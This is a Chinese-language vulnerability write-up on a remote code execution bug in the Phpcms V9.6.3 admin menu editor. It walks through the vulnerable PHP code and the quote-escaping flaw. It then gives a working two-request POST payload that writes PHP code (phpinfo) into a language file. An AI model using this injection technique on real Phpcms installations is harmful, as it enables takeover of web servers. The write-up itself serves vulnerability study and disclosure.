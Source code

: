 Phpcms V9.6.3 后台远程命令执行漏洞
==================================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.6.3

三、复现过程
------------

### 漏洞分析

漏洞代码位于 `/phpcms/modules/admin/menu.php` 第 81 行

    function edit() {
        if(isset($_POST['dosubmit'])) {
            $id = intval($_POST['id']);
            //print_r($_POST['info']);exit;
            $r = $this->db->get_one(array('id'=>$id));
            $this->db->update($_POST['info'],array('id'=>$id));
            //修改语言文件
            $file = PC_PATH.'languages'.DIRECTORY_SEPARATOR.'zh-cn'.DIRECTORY_SEPARATOR.'system_menu.lang.php';
            require $file;
            $key = $_POST['info']['name'];
            if(!isset($LANG[$key])) {
                $content = file_get_contents($file);
                $content = substr($content,0,-2);
                $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
                file_put_contents($file,$data);
            } elseif(isset($LANG[$key]) && $LANG[$key]!=$_POST['language']) {
                $content = file_get_contents($file);
                $content = str_replace($LANG[$key],$_POST['language'],$content);
                file_put_contents($file,$content);
            }
            $this->update_menu_models($id, $r, $_POST['info']);          
            //结束语言文件修改
            showmessage(L('operation_success'));
        } else {

        .  .  .   .  .  .  

        }
    }

这段代码是修改语言文件用的，而这个语言文件就是
/phpcms/languages/zh-cn/system\_menu.lang.php

里面一堆类似 `$LANG['video'] = '视频';` 的东西

当时用 rips 扫描发现的大多是
`$data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";`
这种拼接操作，而且 POST 中的单引号会被转义，无法逃逸

转义代码位于 `/phpcms/libs/classes/param.class.php`

    public function __construct() {
        if(!get_magic_quotes_gpc()) {
            $_POST = new_addslashes($_POST);
            $_GET = new_addslashes($_GET);
            $_REQUEST = new_addslashes($_REQUEST);
            $_COOKIE = new_addslashes($_COOKIE);
        }

    }

而这里突然看到一个 str\_replace ，
`str_replace($LANG[$key],$_POST['language'],$content)`，感觉可能会有漏洞

一番胡乱测试之后惊奇的发现网站 500 了，细看原来是单引号逃逸导致报错

下面是漏洞分析过程

首先要登录后台拿到 pc\_hash 的值，这个是防止提交恶意数据的，后台首页 F12
就能看到

![1.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.6.3后台远程命令执行漏洞/media/rId25.png)

然后访问：

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

phpcms 的路由和那个 yzmcms 差不多，m 是模块名，对应 /phpcms
下的文件夹，c 是控制器名，对应 /phpcms/模块/ 下的 php 文件名，a
则对应控制器类的类函数名

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1

语言文件最后会新添内容

    $LANG['1'] = '1';

### 第一次请求

发送 POST 请求：

    dosubmit=1&info[name]=1&language=1'

`require $file;` 引入语言文件，`$LANG[$key]` 的值还是
NULL，所以执行拼接操作

    $data = $content."\$LANG['$key'] = '$_POST[language]';\r\n?>";
    file_put_contents($file,$data);

得到语言文件新添内容为

    $LANG['1'] = '1\'';
    ?>

### 第二次请求

发送与第一次相同的 POST 请求

`require $file;` 引入语言文件得到 `$LANG[$key]` 的值是
`string(2) "1'"`，也就是说，没有反斜杠，这样问题就出现了，我们同样的请求发送了两次，按照代码逻辑来看，是不应该更新
`$LANG[$key]` 的值的

但是因为 `require` 和 `file_get_contents`
函数读取之后的文件内容不含反斜杠，而我们 POST 传入的 language
会被转义处理得到的值是 `string(3) "1\'"`

于是判断 `$LANG[$key]!=$_POST['language']` 就成立了，接着 `str_replace`
函数进行字符串替换操作，把原来的 `$LANG['1'] = '1\'';` 中的 `1'` 替换成
`1\'`，最终写入文件

结果就得到了以下文件内容，第二个单引号被反斜杠转义，无法闭合

    $LANG['1\'] = '1\'';
    ?>

payload:

发送两次以下请求，访问语言文件
http://www.0-sec.org:9000/phpcms/languages/zh-cn/system\_menu.lang.php
即可得到 phpinfo

URL:

    http://www.0-sec.org:9000/index.php?m=admin&c=menu&a=edit&pc_hash=wCuF7w

POST:

    dosubmit=1&info[name]=];phpinfo();//1&language=];phpinfo();//1'

![2.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.6.3后台远程命令执行漏洞/media/rId28.png)

参考链接
--------

> http://j0k3r.top/2019/10/09/phpcmsv9.6.3\_background\_rce/
